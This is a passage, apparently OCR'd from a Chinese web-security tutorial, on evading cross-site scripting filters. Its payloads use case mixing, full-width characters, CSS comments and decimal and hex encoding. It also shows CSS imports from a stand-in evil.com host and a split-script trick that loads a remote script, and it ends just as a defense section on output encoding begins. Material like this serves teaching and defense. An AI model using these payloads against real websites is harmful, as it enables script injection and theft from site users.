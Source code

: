 使用link或import引用css`<link rel="stylesheet" href="http://www.evil.com/attack.css">`
`p {background-image: expression(alert("xss"));}`
`<style type='text/css'>@import url(http://www.evil.com/xss.css);</style>`
解决：禁用style标签，过滤标签时过滤style属性，过滤含expression、import等敏感字符的样式表

7、扰乱过滤规则

大小写混淆，不使用引号`<iMg sRC="jaVasCript:alert(0);">`
全角字符`<div style="{left: ｅｘｐｒｅｓｓｉｏｎ（ａｌｅｒｔ(0)）}">`
/**/会被浏览器忽略 `<div style="wid/****/th: expre/*XSS*/ssion(alert('xss'));">`
\和\0 被浏览器忽略`@\0im\port'\0ja\vasc\ript:alert("xss")`;
e转换成\65 `<p style="xss:\65xpression(alert(/xss/))">`

**字符编码**：

可以让xss代码绕过服务端的过滤，还能更好地隐藏Shellcode
`![](javascript:alert('XSS');)`
进行十进制转码后得到
`![](&#106&#97&#118&#97&#115&#99&#114&#105&#112&#116&#58&#97&#108&#101&#114&#116&#40&#39&#88&#83&#83&#39&#41&#59)`
用eval()执行10进制脚本
`![](javascript:eval(String.fromCharCode(97,108,101,114,116,40,39,88,83,83,39,41)))`
style属性中经过十六进制编码逃避过滤

```
<div style="xss:expression(alert(1));"></div>
<img STYLE="background-image:\75\72\6c\28\6a\61\76\61\73\63\72\69\70\74\3a\61\6c\65\72\74\28\27\58\53\53\27\29\29">
```

等等其他编码方式
还有js支持unicode、escapes、十六进制、八进制等编码形式，如果运用于跨站攻击，能大大加强xss的威力。

**拆分跨站法**

当程序没有过滤xss关键字符，却对输入字符长度有限制时。
比如：使用拆分法连续发表4篇文章

> 标题1：<script>z='<script src=';/*
> 标题2：/*z+='http://www.test.c';/*
> 标题3：*/z+='n/1.js></script>';/*
> 标题4：/*document.write(z)</script>

/* * / 在脚本标签中是注释，/*和*/之间的字符被忽略，最终转成：

> <script>z='<script src=';
> z+='http://www.test.c';
> z+='n/1.js></script>';
> document.write(z)</script>

脚本顺利执行。
等等还有很多攻击方式与调用shellcode的方法，这里就不一一讲述了。。。。

##### 防御

确认客户端生成数据的唯一安全方法就是在服务器端实施保护措施。
（1）输出编码
